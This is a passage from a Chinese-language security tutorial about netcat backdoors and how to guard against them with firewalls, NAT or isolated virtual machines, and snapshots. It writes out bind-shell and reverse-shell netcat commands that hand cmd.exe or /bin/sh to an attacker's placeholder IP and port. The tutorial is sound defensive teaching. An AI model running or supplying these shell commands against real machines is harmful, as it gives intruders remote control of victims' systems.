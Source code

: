 　　为了让这个后门用起来足够爽，攻击者通常会让 nc 去启动一个【shell 进程】。对 Windows 系统而言，就是 `cmd.exe`；对 POSIX 系统（Linux or UNIX）而言，就是 `/bin/sh`

　　在这种情况下（nc 挂载 shell），攻击者远程连入 nc 的端口，就可以直接在这个 shell 上进行各种操作，其效果类似于 SSH 或（老式的）telnet。  
　　**步骤1**  
　　如果受害者是 Windows 系统，只须如下命令就可以开启一个后门（其中的 `xxx` 是端口号）  

nc.exe -l -p xxx -e cmd.exe

　　如果受害者是 POSIX 系统（Linux or UNIX），则用如下命令：  

nc -l -p xxx -e /bin/sh

  
　　**步骤2** 　　后门创建好之后，攻击者在自己机器上也运行 nc（客户端 nc），然后连接到作为后门的 nc（服务端 nc）。一旦连上之后，攻击者就可以在自己的 nc 上看到对方（受害者机器）的 shell 提示符。  
　　据说是考虑到 `-e` 选项太过危险，nc 的 OpenBSD 变种（在多年前）已经【移除】了该选项。但其实捏，还是可以用间接的方式达到同样的效果（具体如何做，俺就不透露啦）。 　　另，“原版 nc”依然有这个选项；nc 的很多其它变种，也依然有这个选项。 　　在这个场景中，大伙儿可能会想到三个值得改进之处： 1、浏览器的漏洞 2、使用公共 wifi 热点的习惯 3、防火墙的设置 　　对第1点 　　其实是【无解】滴！因为任何人都无法确保浏览器是【零漏洞】； 　　对第2点 　　要看每个人的具体情况而定。对有些人而言，“用公共热点上网”属于【刚需】。那就没办法了。 　　对第3点 　　“防火墙”这招，似乎是比较通用的解决之道。对大部分人而言，桌面 PC 根本就【不必】开启对外监听端口。因此，你可以配置操作系统自带防火墙，禁止【所有的】对外监听端口。 　　但是！（俺要开始说【但是】了） 　　操作系统自带的防火墙，本身也运行在操作系统【之内】。如果你是以【管理员身份】遭遇入侵，入侵者在进行【代码执行】的时候，就已经具有了【管理员权限】。在这个权限下，入侵者完全有可能“搞定”防火墙。方法有很多种—— 比如说：把用作后门的端口号，悄悄加入到防火墙的白名单中； 再比如说：直接把防火墙的过滤模块干掉； 更牛逼的入侵者，甚至可以在【网卡驱动】上做文章——因为网卡驱动位于防火墙的过滤模块【之下】（比防火墙更底层）  
　　首先，这里所说的“NAT 模式”指的是【虚拟机的网卡模式】。如果你不熟悉虚拟机的网卡模式，建议先看俺写的《[扫盲操作系统虚拟机](https://program-think.blogspot.com/2012/10/system-vm-0.html)》系列教程。 　　要想用这招，步骤如下： 1、当然先要安装【虚拟化软件】（VBox、VMware ...）， 2、安装一个虚拟的操作系统（洋文叫“Guest OS”） 3、虚拟系统的网卡设置为【NAT】模式 　　完成上述步骤后，你就可以在这个虚拟系统中上网。 　　NAT 的好处在于【单向可见】。也就是说，Guest OS 可以访问到物理系统（Host OS）【外部】的网络环境；但外部网络环境只能看到 Host OS，看不到 Guest OS。 　　在这种配置下，就算某个入侵者完全控制了你的 Guest OS，他/她也【没】办法在 Guest OS 中搭建“被动连接型后门”。换句话说，即使入侵者运行了这种后门，（但由于 NAT 的缘故）后门【无法】接受外部网络的连接，这个后门就【失去意义】啦。 　　上述“NAT 招数”与“系统防火墙”并【不】矛盾。 　　也就是说，即使你用了这招，你的物理系统（Host OS）还是要配置系统防火墙，并禁止【所有的】对外监听端口。  
  
　　为了打字省力，继续用【前一个章节】的场景。差别在于，你采纳了前一章节的措施——在某个 NAT 模式的虚拟机（Gest OS）中上网，以对付【被动】连接型的 nc 后门。 　　可惜的是——即便如此，入侵者在利用漏洞并获得“执行代码”的机会之后，还是有办法用 nc 在你的电脑上搞一个网络后门。 　　虽然你用了 NAT 模式的【虚拟机】（Guest OS），但入侵者可以用 nc 创建一个【主动】连接型的网络后门（这种玩法，有时也称作“反向连接”的后门）。 　　原理其实与“招数11”很类似，唯一的差别在于——把客户端与服务端【对调】。也就是说，攻击者手头的 nc 充当服务端，而受害者机器上的 nc 充当客户端。此时，受害者本机的 nc【无须】开启监听端口，【不受】防火墙的影响，也【不受】NAT 的影响。  
　　**步骤1**  
　　既然 nc 的“服务端”与“客户端”对调。因此攻击者要先在自己机器上运行“服务端 nc”，命令如下（其中的 `xxx` 是端口号）。当然啦，攻击者自己电脑的防火墙需要允许 `xxx` 端口号对外监听。  

nc -lk -p xxx

  
　　**步骤2** 　　如果受害者是 Windows 系统，只须如下命令就可以开启一个后门。

nc.exe -e cmd.exe x.x.x.x xxx

　　如果受害者是 POSIX 系统，则用如下命令：  

nc -e /bin/sh x.x.x.x xxx

　　（在上述两个命令中， `xxx` 是步骤1用到的端口号，`x.x.x.x` 是攻击者的 IP 地址） 　　所谓的【隔离模式】，指的是“Host Only 模式”或类似的模式（比如：“Internal 模式”）。 　　早在6年前（2013），俺就已经聊过【虚拟机隔离】的话题。具体参见如下系列教程的“第6篇、第7篇、第8篇”：

《[如何隐藏你的踪迹，避免跨省追捕](https://program-think.blogspot.com/2010/04/howto-cover-your-tracks-0.html)》

　　虽然当年那个系列讲的是【隐匿性】，但其中的【虚拟机隔离】，同样可以用来对付“主动连接型后门”。 　　有必要提醒一下： 　　【隔离的虚拟机】可以增加入侵者的攻击难度。但【不能】做到 100% 防范。 　　只要你能在某个隔离虚拟机中上网，那么——那些足够高级的木马，就【有可能】在隔离虚拟机中找到对外连接的通道。从而实现一个“【主动】连接型的后门”。 　　这下该咋办捏？ 　　（在安全方面）虚拟机有两个【显著好处】——“网络隔离性”只是其中之一，另一个是【快照】。 　　如果你对安全性的要求【非常高】，要学会： 1、用“快照功能”建立【安全基线】 （所谓的【安全基线】就是说——在确保系统【纯洁】的时候，先做一个快照） 2、养成【定期回退快照】的好习惯 （就算你中了木马，只要一回退到【安全基线】，系统重新变得【纯洁】啦） 　　关于这方面的教程，俺专门写过一篇：
